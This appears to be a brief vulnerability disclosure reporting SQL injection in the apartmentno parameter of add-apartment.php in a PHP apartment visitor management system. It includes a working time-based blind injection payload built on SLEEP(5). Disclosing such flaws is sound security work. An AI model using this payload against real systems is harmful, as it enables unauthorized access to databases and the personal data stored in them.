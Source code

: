 # The apartment visitor management system has SQL injection vulnerability

## Vulnerability author:wanglun

supplier:
https://www.sourcecodester.com/php-apartment-visitor-management-system-source-code

edition: 
1.0

/add-apartment.php

The apartmentno parameter has SQL injection. Procedure

Payload: apartmentno=qewqe' AND (SELECT 8387 FROM (SELECT(SLEEP(5)))kVPh) AND 'yYSF'='yYSF&apartmentstatus=Owned&buildingno=C&submit=

![image](https://github.com/user-attachments/assets/06c192d3-eb0a-4302-9914-91f850d34f81)

![image](https://github.com/user-attachments/assets/056d120e-6698-4a95-9528-cee9c3074e59)

